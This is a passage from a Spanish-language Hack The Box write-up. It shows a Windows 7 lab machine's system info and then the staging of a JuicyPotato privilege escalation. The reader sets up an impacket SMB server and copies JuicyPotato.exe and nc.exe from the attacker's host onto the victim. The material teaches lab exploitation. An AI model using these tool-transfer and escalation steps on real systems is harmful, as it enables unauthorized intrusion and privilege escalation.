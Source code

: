 ```
Original Install Date:     17/3/2017, 4:17:31 ��
System Boot Time:          28/7/2024, 3:30:22 ��
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x64 Family 25 Model 1 Stepping 1 AuthenticAMD ~2595 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/11/2020
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     3.071 MB
Available Physical Memory: 2.347 MB
Virtual Memory: Max Size:  6.141 MB
Virtual Memory: Available: 5.425 MB
Virtual Memory: In Use:    716 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection 4
                                 DHCP Enabled:    Yes
                                 DHCP Server:     10.129.0.1
                                 IP address(es)
                                 [01]: 10.129.155.162
                                 [02]: fe80::11b7:e738:3f31:b822
                                 [03]: dead:beef::d120:907d:57ca:f12f
                                 [04]: dead:beef::11b7:e738:3f31:b822
```

Nos `descargamos` el `.exe` en nuestro equipo [https://github.com/ivanitlearning/Juicy-Potato-x86/releases](https://github.com/ivanitlearning/Juicy-Potato-x86/releases). En esta web [https://ohpe.it/juicy-potato/CLSID/Windows_7_Enterprise/](https://ohpe.it/juicy-potato/CLSID/Windows_7_Enterprise/) podemos consultar los `CLSID` disponibles para nuestra versión, que es `Windows 7 Enterprise`, si uno no funciona debemos probar otro. Nos transferimos el `nc.exe` y el `JuicyPotato.exe` a la máquina víctima, para ello nos debemos montar un `servidor smb` primero en el mismo directorio donde se encuentran estos archivos

```
# impacket-smbserver smbFolder $(pwd) -smb2support
```

```
c:\Windows\Temp\privesc>copy \\10.10.16.16\smbFolder\JuicyPotato.exe .
copy \\10.10.16.16\smbFolder\JuicyPotato.exe .
        1 file(s) copied.

c:\Windows\Temp\privesc>copy \\10.10.16.16\smbFolder\nc.exe .
copy \\10.10.16.16\smbFolder\nc.exe .
        1 file(s) copied.

c:\Windows\Temp\privesc>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 137F-3971

 Directory of c:\Windows\Temp\privesc

28/07/2024  04:15 ��    <DIR>          .
28/07/2024  04:15 ��    <DIR>          ..
```